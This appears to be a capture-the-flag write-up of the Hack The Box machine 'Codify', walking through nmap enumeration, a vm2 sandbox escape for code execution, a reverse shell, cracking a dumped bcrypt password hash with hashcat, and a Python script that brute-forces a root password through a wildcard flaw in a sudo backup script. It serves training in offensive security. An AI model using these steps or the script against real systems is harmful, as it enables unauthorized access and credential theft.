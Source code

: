 # HTB - Codify

### TL;DR
This is an Ubuntu 22.04 machine running a web application created with vulnerable version of vm2 library. Exploiting the vulnerability, we get inital foothold, and pivot to ssh user is gained through password hunting in the file system. Escalation is achieved exploiting vulnerability in local backup shell script, for this purpose we generate our own custom exploit.

**Keywords:**<br>
node.js, vm2, python exploit scripting

**References:**<br>
https://www.cvedetails.com/cve/CVE-2023-32314<br>
https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac<br>
https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching
### PHASE 1. Service enumeration
Launch a port scan with `nmap`
```markdown
> nmap $target -p- -T4 -Pn --open --reason
nmap $target -p- -T4 -Pn --open --reason
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-05 06:35 EST
Nmap scan report for 10.129.156.20
Host is up, received user-set (0.065s latency).
Not shown: 64814 closed tcp ports (conn-refused), 718 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
3000/tcp open  ppp     syn-ack

Nmap done: 1 IP address (1 host up) scanned in 30.45 seconds
```
There are 2 web servers running. If you browse with firefox, you see they are made with vm2 library.

![codify2](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/67d649f9-bbb7-4e24-80a6-430cbdecafa8)

For reverse shell, we'll focus on exploiting vm2 vulnerabilities.
### PHASE 2: User
Searching for vm2 vulnerabilities, we came across this cve-2023-32314 (https://www.cvedetails.com/cve/CVE-2023-32314). A poc can be found in github: https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac. Running it in the application we have immediate code execution.

![codify1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/3106cd02-8828-48bb-9a51-9f36691a0b4d)

Which can be used to send a `mkfifo nc` reverse shell.

![codify3jpg](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/b968c1f1-5f35-4ea5-8027-e55803658b2d)

Once inside the machine, first step is to inspect the `/etc/passwd` file, which reveals our first step would be to pivot to user joshua.
```markdown
> cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```
Searching for interesting files in the file system, we came across this one `/var/www/contact/tickets.db`, which turns out to contain joshua's password hash.
```markdown
> cat /var/www/contact/tickets.db
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��     tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua**$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2**
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```
This is a blowfish hash which can be cracked with `hashcat`.
```markdown
hashcat -m 3200 -a 0 -d 1 hash.txt .\rockyou.txt -r .\rockyou-30000.rule
```
ssh in as user joshua using found credentials and collect the flag.
### PHASE 3. System
Let's see if joshua is a sudoer.
```markdown
sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
It seems he can sudo run a backup script located at `/opt/scripts/mysql-backup.sh`. Inspect the code of the script which reveals to be vulnerable to wildcard injection.

![codify4](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/5d9dc9ca-0f30-47fa-bcca-f403f554bed5)

Using double brackets in the `if` comparison hypothetically allows us to use wildcards to guess the password, using a process similar to blind sql injections.
To find out more about the difference between single brackets and double brackets read this: https://www.baeldung.com/linux/bash-single-vs-double-brackets#4-pattern-matching. In summary both conditions `[[$DB_PASS == Password123!]]` and `[[$DB_PASS == P* ]]` will be evaluated as true in the if statement.
To brute force the password you can use 3 methods:
1. Manually. Letter by letter, not recommended.
2. Semi-manually. Create a file called `letter` containing all lower-case, upper-case and digits and bruteforce them using a loop. Add letters sequentially as you discover in each iteration. The first loop iteration would look like this:
```markdown
>for i in $(cat letters);do echo a* | sudo /opt/scripts/mysql-backup.sh && echo "$i";done
```
As soon as you find a new character, add it to the for loop (e.g. `...echo abcde*...`) and repeat until no more letters are discovered.
3. Using a python script. Elegant and fast. The machine also has perl installed. A proposed python script would be the following:
```python
import string
import os

chars = string.ascii_letters + string.digits
password=''
next=1

print("[+] initializing bruteforce script...")
print("[+] bruteforce in progress, please wait...")
while next==1:
        for i in chars:
                errorlevel=os.system("echo "+password+i+"* | sudo /opt/scripts/mysql-backup.sh >/dev/null 2>&1")
                if errorlevel==0:
                        password=password+i
                        print("[+] new character found: "+password)
                        next=1
                        break
                else: next=0
print("[+] process terminated, root password is: "+password)
```
Running it, the root mysql password is revealed in less than a minute, which turns out to be a reuse of the system's root password.

![codify5](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/651f989c-f9e3-4ae8-83a3-a5f97dc017b1)

